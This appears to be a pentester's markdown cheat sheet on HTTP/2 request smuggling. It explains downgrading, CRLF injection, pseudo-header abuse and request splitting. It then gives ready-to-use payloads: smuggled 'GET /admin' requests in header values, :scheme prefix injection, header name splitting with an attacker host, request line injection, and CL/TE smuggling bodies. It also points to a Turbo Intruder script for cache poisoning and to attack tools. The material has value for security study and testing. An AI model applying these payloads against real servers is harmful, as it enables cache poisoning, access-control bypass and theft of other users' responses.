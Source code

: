 # HTTP/2 Request Smuggling




###### notes:
- downgrading is converting HTTP/2 to HTTP/1.1 in the proxy server or load balancer because the backend server speaks only HTTP/1.1
- some proxy servers force to speak only  with HTTP/1.1 with the backend server 
- request queue poisoning is a technique to steal user's response by sending 2 requests in one connection 
- Smuggling  via CRLF occurs when the backend treat `\n` as delimiter and the frontend doesn't.
	- e.g: `Foo: bar\nTransfer-Encoding: chunked`
- Smuggling HTTP/2 via full CRLF `\r\n` is possible because delimiters has no special significance because the request is in binary, when H2 downgraded: CRLF attack
- bypassing frontend headers filtering using colons in H2 request
	- e.g: `foo: bar\r\nTransfer-Encoding: chunked\r\nX:` `Ignored by filter`
- HTTP2  has `pseudo-headers` which they are:
	-   `:method` - The request method.
	-   `:path` - The request path. Note that this includes the query string.
	-   `:authority` - Roughly equivalent to the HTTP/1 `Host` header.
	-   `:scheme` - The request scheme, typically `http` or `https`.
	-   `:status` - The response status code (not used in requests).
- interesting attacks can be constructed by combaning `HTTP/1.1` headers with them.
- duplicated pseudo-header might be allowed for constructing host header attacks, even in path.
- [read](https://portswigger.net/web-security/request-smuggling/advanced/http2-exclusive-vectors) more about new attack vectors in HTTP2 
- constructing request splitting is adding new requests in request headers in H2
	- e.g: `Foo: Sora\r\n\r\nGET /admin HTTP/1.1\r\nHost: victim.com`
- may need to put `Host: ` before the splitted request, and other necessary headers in same way.
	- e.g: `Foo: Sora\r\nHost: victim.com\r\n\r\nGET /admin\r\n` 
- continue reading [HTTP request tunneling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling)
- check if the site support H2 `curl --http2 --http2-prior-knowledge`


###### payloads
- URL prefix injection ":scheme" in H2 and H2 downgrade:
```HTTP
:method GET
:path //file.js
:authority start.mozilla.org
:scheme http:/1/start.mozilla.org/xyz?
```
- header name splitting
```HTTP
:method GET
:path /file.js
:authority apache.org
host: attacker.com 443
```
- request line injection
 ```HTTP
:method GET /admin HTTP/1.1
:path /fakepath
:authority apache.org
```

- Turbo intruder script for request smuggling via [CL.CL](https://gist.github.com/DanielIntruder/ddd773e95ad78895cedb064401a938fa), edit the `nonexisting` path to perform cache poisoning
- simple overwriting content-length payload
```http
GET / HTTP/1.1
Content-Length: 0

SMUGGLED
```
- simple overwriting Transfer-Encoding payload
```http
GET / HTTP/1.1
Transfer-Encoding: chunked

0

SMUGGLED
```
###### tools:
- [http2smugl](https://github.com/neex/http2smugl)
- [htsmuggler](https://github.com/BishopFox/h2csmuggler)
- [param-miner](https://github.com/intruder-io/param-miner)